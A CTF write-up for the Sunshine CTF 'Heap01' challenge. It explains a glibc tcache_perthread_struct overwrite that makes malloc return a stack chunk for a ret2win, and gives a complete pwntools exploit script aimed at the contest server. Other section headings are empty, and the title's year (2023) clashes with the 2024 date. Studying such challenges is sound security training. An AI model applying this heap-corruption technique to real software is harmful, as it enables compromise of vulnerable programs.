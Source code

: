 ```yaml
---
title: Sunshine CTF 2023
category: WRITEUP, CTF, HEAP, TCACHE, HOUSE OF FORCE
date: May 15th, 2024
description: Writeup of challenges for sunshine ctf 2024.
---
```


## Secure Flag Terminal



## Heap01

This challenge is a just a simple function in a single run. 
First it leaks a pointer to the stack. Then it asks for a size
and allocates a chunk of that size.
After that it allows you to write an index out of bounds three times. 

Then it allocates another chunk of the same size, and allows three
more writes.

The simple solution is to overwrite the tcache\_perthread\_struct
which resides at the beginning of the heap. 

The tcache\_perthread\_struct is a struct that resides at the 
beginning of a heap and is used as the management structure 
of the tcache similar to the main\_arena.


```
typedef struct tcache_perthread_struct

{

  char counts[TCACHE_MAX_BINS];

  tcache_entry *entries[TCACHE_MAX_BINS];

} tcache_perthread_struct;



# define TCACHE_MAX_BINS                64

```

```
typedef struct tcache_entry

{

  struct tcache_entry *next;

} tcache_entry;

```

Our goal now is to overwrite one of the tcache entries to our stack
leak and then overwrite the count that specifies that there is 
an entry in the specific tcachesize. 


Then the second malloc will allocate on the stack. After that
we can do a simple ret2win.

```
#! /usr/bin/python
from pwn import *

context.update(
        arch="amd64",
        endian="little",
        log_level="info",
        os="linux",
        terminal=["alacritty", "-e"]
)

to = 2
ru = lambda p,s: p.recvuntil(s, timeout=to)
rl = lambda p: p.recvline()
sla = lambda p,a,b: p.sendlineafter(a, b, timeout=to)
sl = lambda p,a: p.sendline(a)
up = lambda b: int.from_bytes(b, byteorder="little")

SERVICE = "2024.sunshinectf.games"
PORT =  24006

def start(binary):

    gs = '''
        set context-sections stack regs disasm
        set show-compact-regs on
        set resolve-heap-via-heuristic on
        set follow-fork-mode parent
    '''

    if args.GDB:
        return gdb.debug(binary, gdbscript=gs)
    elif args.REMOTE:
        return remote(SERVICE,PORT)
    else:
        return process(binary)

def align_chunk(addr):
    return (addr + 0x20) & 0xfffffffffffffff0

def exploit(p,e):

    ru(p,b"Do you want a leak?")

    sl(p,p64(0x500))

    rl(p)
    stack_leak = int(rl(p).strip(b"\n"),16)
    log.info(f"Stack leak {hex(stack_leak)}")

    ru(p,b"Enter chunk size:")

    chunk_size = 0x38

    sl(p,str(chunk_size))

    ru(p,b"Index: ")

    pthread_struct_entry_offset = -(int)(4624 / 8)
    sl(p,str(pthread_struct_entry_offset))

    target = stack_leak
    log.info(f"Setting tcache_perthread_struct entry to {hex(target)}")
    ru(p,b"Value: ")
    sl(p,str(target + 0x20).encode())

    ru(p,b"Index: ")
    pthread_struct_offset_count = -(int)(4768 / 8)
    sl(p,str(pthread_struct_offset_count))

    ru(p,b"Value: ")
    sl(p,str(0x1000100010001))

    r = ROP(e)
    for i in range(2):
        ru(p,b"Value: ")
        sl(p,str(r.find_gadget(["ret"])[0]))

    ru(p,b"Value: ")
    sl(p,str(e.sym["win"]))

    p.interactive()



if __name__=="__main__":
    file = args.BIN

    p = start(file)
    e = context.binary = ELF(file)
    #l = ELF("./libc.so.6")

    exploit(p,e)

```

## Jungle

